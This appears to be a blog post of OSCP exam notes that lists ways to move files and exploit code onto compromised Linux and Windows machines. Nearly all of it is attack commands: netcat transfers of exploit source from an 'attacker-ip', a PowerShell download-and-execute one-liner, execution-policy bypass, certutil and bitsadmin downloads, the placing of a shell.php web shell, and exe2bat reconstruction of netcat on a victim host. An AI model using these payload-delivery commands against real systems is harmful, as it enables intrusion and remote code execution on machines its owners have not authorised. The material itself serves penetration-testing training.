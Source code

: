 ```yaml
---
layout: post
title:  "File Transfer Techniques"
date:   2018-11-09 10:00:00 +1100
categories: [others]
permalink: /:title:output_ext
comments: true
---
```


<br>
\-- Another compilation of tips and tricks collected during my OSCP exam prep.<br>

### Linux

**wget**

    wget <URL> -P <local path>

**scp**

    scp <source file> <username>@192.168.xx.xx:/home/<username>/

**ssh**

    ssh HOST cat < LOCALFILE “>” REMOTEFILE

**curl**

    curl -o taglist.zip <Any URL>
    curl -O <URL with file name>

**NC (NetCat)**
\-- Download and host the exploit code on your attacker machine
    
    nc -lvp 6666 < getr00t.c

\-- Download it using the limited shell at your target machine 
    
    nc -nv attacker-ip 6666 > gRoot.c


------

### Windows

**TFTP**

\-- In Kali, create /tftpboot/ directory specifically only for TFTP daemon service
\-- Setup TFTP on Attacker Machine

    atftpd –daemon –port 69 <directory>
    service atftpd start
    cp <file> /tftpboot/

\-- Command on victim machine

    tftp -i <ip address of attacker> GET <file name>

**FTP**

\-- Setup FTP server on attacker machine

    apt-get install pure-ftpd
    setup-ftp
    username: myuser, pswd: lab

\-- Commands on victim machine : Write set of commands in a text file

    echo open X.X.X.X 21> ftp.txt
    echo USER myuser>> ftp.txt
    echo ftp>> ftp.txt
    echo bin >> ftp.txt
    echo GET nc.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp –v -n -s:ftp.txt

**VBScript**<br>
\-- This one is very common and you will see it on many OSCP blog posts .<br>
 
 **Powershell**

\-- Easy way:
    
    powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.1/winenum.bat','C:\inetpub\temp\winenum.bat')
    
\-- Downlaod and Execute:

    powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://attacker-ip/file.exe')
    
\-- Bypassing execution policies 

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

    
\-- **Weird way:**<br>
\-- On victim machine, write set of commands in a ps1 file

    echo $storageDir = $pwd > wget.ps1
    echo $webclient = New-Object System.Net.WebClient >>wget.ps1
    echo $url = “http://10.xx.xx.xx:8000/Some.exe&#8221; >>wget.ps1
    echo $file = “new-exploit.exe” >>wget.ps1
    echo $webclient.DownloadFile($url,$file) >>wget.ps1

\-- Run wget.ps1 on victim machine

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
    
<br>
**bitsadmin**<br>

    bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php

<br>**cscript**<br>

    cscript wget.vbs http://<ip>/test.txt test.txt


<br>**wget.exe**<br>
\-- Upload to vulnerable server from kali: /usr/share/windows-binaries/wget.exe

    wget.exe http://<ip>/file file

<br>**certutil**<br>

    certutil -urlcache -split -f https://<ip>/file.txt file.txt
    
<br>**EXE2BAT**<br>
\-- Convert EXE to TXT file:

   	root@kali:~/Desktop# locate exe2bat
	/usr/share/windows-binaries/exe2bat.exe
	root@kali:~/Desktop# cp /usr/share/windows-binaries/exe2bat.exe .
	root@kali:~/Desktop# wine exe2bat.exe nc.exe nc.txt
    Finished: nc.exe > nc.txt 

\-- From txt to exe:
    
	root@kali:~/Desktop# cat nc.txt
	echo n 1.dll >123.hex
	echo e 0100 >>123.hex
	echo 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 00 00 00 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 20 6d 6f 64 65 2e 0d 0d 0a 24 00 00 00 00 00 00 00  >>123.hex 
	echo e 0180 >>123.hex
    .
    .
    .
   	echo q >>123.hex
	debug<123.hex
	copy 1.dll nc_from_binary.exe
